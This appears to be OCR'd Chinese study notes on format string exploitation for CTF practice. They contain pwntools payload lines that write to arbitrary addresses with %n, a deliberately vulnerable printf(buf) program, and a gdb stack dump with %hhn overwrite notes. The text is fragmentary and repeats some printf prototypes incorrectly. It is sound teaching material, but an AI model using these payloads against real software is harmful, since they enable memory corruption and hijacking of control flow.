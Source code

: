 payload = fmtstr_payload(7, {addr: 16}) # 向 addr 写入 16
payload = flat(addr, 'a'\*12, b'%7$n') # 向 addr 写入 16, addr 占 4, 4+12=16

- 原理
- 格式化字符串
- 程序崩溃
- 泄漏内存
- 泄漏栈内存
- 泄漏任意地址内存：覆盖小数字、覆盖大数字
- 例题 1：x64 格式化字符串漏洞
- 例题 2：hijack GOT 劫持 GOT 表
- 例题 3：hijack retaddr 劫持返回地址
- 盲打

https://blog.csdn.net/qq_42880719/article/details/119060634

- Format string attack

- Read - information leak:
  - PIE, stack heap libc ASLR, cannary
- Write - almost write every where
- Powerful vulnerablility

往后进行 overflow, 覆盖到 rbp

```c
int printf( const char* format, ...);
int fprintf( FILE* stream, const char* format, ...);
int vprintf( const char* format, va_list arg);
int vfprintf( const char* format, va_list arg);
int vprintf( const char* format, va_list arg);
int vprintf( FILE *stream, const char* format, va_list arg);
int vdprintf( int fd, const char* format, va_list ap);
```

正面这个即使保护全开也能拿到 shell

```c
int main() {
    char buf[0x100];

    while(scanf("%s", buf) != EOF) {
        printf(buf);
        printf("\n");
    }
    return 0;
}
```

#### 只能处理地址

只能处理地址, `%12p%6$hhn` 比如 0xffa2a4a8 —▸ 0xffa2a4c4 —▸ 0x804bfb8 可改写的是 0xffa2a4c4 指向的值 即`0x804bfb8`改写为`0x804bf0c`

不能直接修改 `0xffa2a4cc` 指向的值。

```sh
    00:0000│ esp 0xffa2a490 —▸ 0xffa2a4ac ◂— 0x70333225 ('%23p')
    01:0004│     0xffa2a494 —▸ 0xffa2a4ac ◂— 0x70333225 ('%23p')
    02:0008│     0xffa2a498 ◂— 0x10
    03:000c│     0xffa2a49c —▸ 0x804963e (talk+16) ◂— add ebx, 0x297a
    04:0010│     0xffa2a4a0 —▸ 0xf7f49620 (_IO_2_1_stdin_) ◂— 0xfbad208b
√   05:0014│     0xffa2a4a4 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */                 # 可改写 0x47006425
√   06:0018│     0xffa2a4a8 —▸ 0xffa2a4c4 —▸ 0x804bfb8  —▸ 0x804bec0 (_DYNAMIC) # 可改写 0x804bfb8
    07:001c│ eax 0xffa2a4ac ◂— 0x70333225 ('%23p')
    08:0020│     0xffa2a4b0 ◂— 0x24303125 ('%10$')
    09:0024│     0xffa2a4b4 ◂— 0x616e6868 ('hhna')
√   0a:0028│     0xffa2a4b8 —▸ 0xffa2a4ec —▸ 0x8049797 (main+30) ◂— mov eax, 0
    0b:002c│     0xffa2a4bc ◂— 0x80893a00
√   0c:0030│     0xffa2a4c0 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */
```